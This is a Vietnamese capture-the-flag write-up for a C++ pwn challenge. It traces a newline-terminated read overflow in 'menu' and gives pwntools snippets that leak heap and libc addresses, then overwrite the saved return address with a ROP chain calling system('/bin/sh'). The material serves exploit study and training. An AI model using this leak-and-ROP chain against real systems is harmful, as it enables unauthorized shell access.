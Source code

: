 **1. Tìm bug**

 - ![image-20230324142756616](./assets/image-20230324142756616.png)

 - ![image-20230324002316587](./assets/image-20230324002316587.png)

 - `checksec` ta thấy `canary disable` 

 - Xem qua `main` bằng ida

 - ![image-20230324002544726](./assets/image-20230324002544726.png)

 - 1 chall được viết bằng `c++` đây là lý do nó ít `solved` mặc dù là bug cơ bản

 - Sau khi tìm hiểu chương trình thì ta nên focus vào 3 hàm `menu`, `sub_476E` mình đã đổi tên nó thành `allocate_str` và `new_kana` 

 - ![image-20230324004125614](./assets/image-20230324004125614.png)

 - Tại `menu` ta sẽ thấy ngay lỗi `overflow` khi mà `read` chỉ dừng với `\n`

 - ![image-20230324004324569](./assets/image-20230324004324569.png)

 - Hàm `allocate_str` nó sẽ gán `string a1 = (a2 + 48)`, ta sẽ đặt `breakpoint` tại hàm này ở `menu` để xem 2 tham số của nó được đặt tại đâu trên `stack`

 - ![image-20230324004658707](./assets/image-20230324004658707.png)

 - Tiếp đến hàm `new_kana` nó cho ta nhập vào `string a1+48`, đối với `main` thì `option` này sẽ nhập vào `string+48`

 - Ta sẽ debug qua để có một cái nhìn cụ thể

 - ![image-20230324132345540](./assets/image-20230324132345540.png)

 - `new_kana` thực hiện `std::cin` vào địa chỉ `0x007fffffffe310` 

 - sau khi nhập ta có cấu trúc của `string chunk` như sau:

 - ![image-20230324132558497](./assets/image-20230324132558497.png) 

 - Sau khi quay lại `menu` hàm `allocate_str` sẽ gán `v11 = a + 48`

 - ![image-20230324132833923](./assets/image-20230324132833923.png)

 - ![image-20230324133125986](./assets/image-20230324133125986.png)

 - Sau khi `allocate_str` được gọi thì `v11` sẽ được setup để được in ra theo `size` của nó thông qua 2 hàm kế tiếp này.

 - Điều này dẫn đến 2 hướng khai thác để có thể leak các giá trị đó là thay đổi `ptr` hoặc `size`, tuy nhiên ta có thể thấy rằng ở `a1+48` là chứa `0x00555555574d50` nhưng sau khi gán vào `v11` thì `v11` lại chứa một `ptr` khác là `0x00555555576590` điều này là do việc cấp phát động theo `size` và thực hiện `copy` vào `chunk` mới vừa được cấp phát.

 - Do vậy ta chỉ nên thay đổi `chunk`, ban đầu thì ta cứ tìm cách leak `heap` ra, do việc control `ptr` là khá khó vì nó luôn thay đổi.

 - ![image-20230324142534101](./assets/image-20230324142534101.png)

 - do `ptr` của `a1+48` nằm sau `saverip` nên ta sẽ `overflow` thay đổi giá trị `i` lúc này có thể `read` tùy ý trên `stack`

 - sau khi có được `heap` ta sẽ leak `libc` thông qua `chunk` này, một `chunk` trong `small_bins`

 - ![image-20230324143040413](./assets/image-20230324143040413.png)

**2. Khai thác**

 - ```python
   new_kana(b'a'*0x430)
   payload = b'a'*0x5c + p8(0xc0-1)
   choice(payload, b'')
   
   r.recvuntil(b': ')
   heap = r.recv(16)[8:16]
   heap = u64(heap)
   print(hex(heap))
   ```
   
 - Ta sẽ tạo 1 `string` lớn thông qua `new_kana` điều này có 2 lợi ích khi nó sẽ tạo ra một lượng lớn `size` và có một `chunk` sẽ xuất hiện trong `small_bins`

 - Đồng thời thay đổi giá trị `i` để nó `read` tới `a1+48`

 - ![image-20230324143825162](./assets/image-20230324143825162.png)

 - ![image-20230324144014737](./assets/image-20230324144014737.png)

 - Và giờ ta có thể leak đc `heap`
 - ![image-20230324144114884](./assets/image-20230324144114884.png)
 - ```python
   newheap = heap + 0x6e0
   print(hex(newheap))
   choice(payload, p64(newheap))
   
   r.recvuntil(b': ')
   libc.address = u64(r.recv(8)) - libc_off
   print(hex(libc.address))
   ```
 - Tiếp theo ta sẽ ghi lại `ptr` thành `heap` của `small_bins` nơi chứa `libc` và thực hiện `leak libc`.
 - ![image-20230324145741396](./assets/image-20230324145741396.png)
 - ```python
   ret = libc.address + pop_rdi_off + 1
   pop_rdi = libc.address + pop_rdi_off
   print(hex(ret))
   print(hex(pop_rdi))
   
   payload = b'a'*0x5c + p8(0x78-1)
   payload += flat(
       pop_rdi, next(libc.search(b'/bin/sh')),
       ret,
       libc.sym['system']
       )
   choice(payload)
   ```
 - Sau khi leak `libc` ta `overwrite saverip` thực thi `system("/bin/sh") để lấy shell
 - ![image-20230324145832522](./assets/image-20230324145832522.png)

   
